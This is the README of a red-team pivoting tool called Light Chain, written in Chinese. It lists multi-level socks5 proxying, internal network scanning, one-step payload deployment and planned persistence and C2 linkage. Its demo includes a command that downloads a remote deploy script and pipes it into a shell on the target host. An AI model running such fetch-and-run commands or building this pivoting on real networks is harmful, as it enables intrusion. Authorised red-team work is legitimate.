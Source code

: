 # Light Chain

![version](https://img.shields.io/github/v/release/MayMistery/LightChain?include_prereleases&label=version)
![license](https://img.shields.io/github/license/MayMistery/LightChain?color=FF5531)

红队工具，内网前哨站。轻量化，支持多级正、反向代理；载荷投递、落地；可以进行主、被动内网探测。

## Features

- socks5多级代理
- 主、被动内网探测
- 长链路载荷投递一键落地

## Todo
### Step 1
- [ ] 增加ssh端口转发
- [ ] 增加一键部署脚本
- [ ] 优化多级代理时的参数配置
- [ ] 增加socks5代理
- [ ] 增加-d后台运行
- [ ] 增加日志输出（可配置
- ### Step 2
- [ ] 考虑增加载荷投递
- [ ] Shell管理，或联动CS（远程命令执行
- [ ] 增加权限维持手段
- [ ] 考虑增加载荷投递

## Demo(预期)

- 攻击机（公网）`lChain -srv eth0 8888`
- 攻击机（无公网ip）`lChain -srv eth0 -local 8888`（文件服务器
读取配置文件cfg.ini中的公网机ssh配置，利用ssh进行远端端口转发搭建公网服务
- 宿主端一键落地 `curl http://host:post/dep.sh | sh`（服务端运行时生成dep.sh）
- 宿主端 `lChain -slv eth0 -C '121.*.*.1:8888,121.*.*.2:8888' 8888`(部署在eth0网卡上，-C从宿主机到攻击机路径)

## Tree
```shell
├── LICENSE
├── README.md
├── cmd
│   ├── cmd.go    
│   ├── config.go    # 变量配置
│   └── flag.go      # arg配置、解析
├── clients
│   ├── clients.go    
│   ├── scan.go      # 扫描模块
│   └── chain.go     # 链路处理
├── server
│   ├── server.go    
│   ├── vps.go       # 远程端口转发获得公网ip
│   └── file.go      # 文件服务器
├── utils
│   ├── utils.go    
│   ├── dep.go       # 生成部署sh脚本
│   ├── socks5.go    # sock5代理
│   └── ssh.go       # 端口转发
├── go.mod
├── go.sum
├── main.go
├── makefile
├── release
├── file             # 文件服务文件夹
└── log              # 日志


```

## Contributor

<a href="https://github.com/MayMistery/LightChain/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=MayMistery/LightChain" />
</a>